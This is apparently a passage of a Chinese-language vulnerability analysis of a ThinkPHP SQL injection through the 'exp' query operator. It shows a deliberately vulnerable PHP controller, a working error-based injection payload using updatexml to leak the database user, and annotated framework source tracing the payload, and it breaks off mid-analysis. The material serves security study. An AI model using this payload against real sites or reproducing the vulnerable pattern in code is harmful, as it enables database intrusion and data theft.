 ```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username');
        $result = db('users')->where('username','exp',$username)->select();
        var_dump($result);
    }
}
```

```
?username==1) and updatexml(1,concat(0x7e,user(),0x7e),1)%23
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204111736580.png)

## 漏洞分析

```php
#thinkphp/library/think/db/Query.php
    /**
     * 指定AND查询条件
     * @access public
     * @param mixed $field     查询字段
     * @param mixed $op        查询表达式
     * @param mixed $condition 查询条件
     * @return $this
     */
    public function where($field, $op = null, $condition = null)
    {
        $param = func_get_args();
        array_shift($param);
        #$param
        #0 = {} "exp"
        #1 = {} "=1) and updatexml(1,concat(0x7e,user(),0x7e),1)#"
        $this->parseWhereExp('AND', $field, $op, $condition, $param);
        return $this;
    }

    /**
     * 分析查询表达式
     * @access public
     * @param string                $logic     查询逻辑 and or xor
     * @param string|array|\Closure $field     查询字段
     * @param mixed                 $op        查询表达式
     * @param mixed                 $condition 查询条件
     * @param array                 $param     查询参数
     * @return void
     */
    protected function parseWhereExp($logic, $field, $op, $condition, $param = [])
    {
        #$condition = {} "=1) and updatexml(1,concat(0x7e,user(),0x7e),1)#"
        #$field = {} "username"
        #$logic = {} "AND"
        #$op = {} "exp"
        #$param = {数组} [2]
        # 0 = {} "exp"
        # 1 = {} "=1) and updatexml(1,concat(0x7e,user(),0x7e),1)#"
        $logic = strtoupper($logic);

```